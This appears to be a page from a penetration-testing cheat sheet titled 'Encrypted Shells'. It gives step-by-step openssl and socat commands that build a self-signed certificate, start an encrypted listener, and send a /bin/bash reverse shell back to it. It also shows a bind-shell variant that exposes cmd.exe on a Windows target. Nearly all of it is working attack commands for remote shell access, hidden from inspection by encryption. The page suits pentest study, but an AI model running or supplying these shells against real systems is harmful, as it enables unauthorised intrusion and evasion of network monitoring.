 # Encrypted Shells

## Listening

### Steps :&#x20;

{% code title="Step 1" overflow="wrap" %}
```bash
openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt

#This command creates a 2048 bit RSA key with matching cert file, self-signed, and valid for just under a year. When you run this command it will ask you to fill in information about the certificate. This can be left blank, or filled randomly.
```
{% endcode %}

{% code title="Step 2" overflow="wrap" %}
```bash
cat shell.key shell.crt > shell.pem

#We then need to merge the two created files into a single .pem file
```
{% endcode %}

{% code title="Step 3" overflow="wrap" %}
```bash
socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 -

#This sets up an OPENSSL listener using our generated certificate. verify=0 tells the connection to not bother trying to validate that our certificate has been properly signed by a recognised authority. Please note that the certificate must be used on whichever device is listening.
```
{% endcode %}

## Connect Back

{% code overflow="wrap" %}
```bash
socat OPENSSL:<LOCAL-IP>:<LOCAL-PORT>,verify=0 EXEC:/bin/bash
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

{% hint style="success" %}
The same technique would apply for a **Bind Shell**:

{% code title="Listener" %}
```bash
socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 EXEC:cmd.exe,pipes
```
{% endcode %}

{% code title="Target" %}
```bash
socat OPENSSL:<TARGET-IP>:<TARGET-PORT>,verify=0 -
```
{% endcode %}



* [x] _**note that even for a Windows target, the certificate must be used with the listener, so copying the PEM file across for a bind shell is required.**_
{% endhint %}
